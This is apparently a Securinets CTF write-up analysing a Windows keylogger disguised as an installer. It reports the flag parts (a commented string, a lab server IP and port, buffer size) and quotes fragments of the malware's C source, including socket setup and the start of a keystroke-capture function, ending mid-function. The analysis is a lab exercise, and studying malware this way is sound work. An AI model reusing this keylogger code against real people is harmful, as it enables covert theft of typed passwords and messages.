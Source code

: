**commentedFlag:** {battle_pass}
```c
// Here
// {battle_pass}
// You're welcome
```

**ServerIp:** 10.10.10.45
```c
server.sin_addr.s_addr = inet_addr("10.10.10.45");
```

**Port Number:** 12355
```c
server.sin_port = htons(12355);
```

**bufferSize:** 26
```c
char buffer[26];
```


**flag: Securinets{Keylogger_{battle_pass}_10.10.10.45_12355_26}**

---

## Initial Analysis

For this task, we're provided with the malware executable with its source code. Upon executing it, an installation window appears. It's obviously a cover for the malware's main process.

![Setup cover](assets/Setup.png)


```c
#include <stdio.h>
#include <windows.h>
#include <winsock2.h>
#include <time.h>
```

Scanning the include lines for hints, one library stands out which is the **winsock2.h**. The main program is probably using it to create a socket for remote access for the attacker, possibly a **Remote Access Trojan** or a **Backdoor**...

```c
void logk(int vkCode) {
    WCHAR keyName[2] = {0};
    BYTE keyboardState[256] = {0};
    GetKeyboardState(keyboardState);

    HKL layout = GetKeyboardLayout(0);
    int result = ToUnicode(vkCode, 0, keyboardState, keyName, 2, 0);

    if (result > 0) {
        buffer[count++] = keyName[0];
    } else {
        switch (vkCode) {
            case VK_SPACE: buffer[count++] = ' '; break;
            case VK_TAB: buffer[count++] = '\t'; break;
            case VK_RETURN: buffer[count++] = '\n'; break;
            case VK_BACK: buffer[count++] = '\b'; break;
            default: buffer[count++] = '?'; break;
        }
```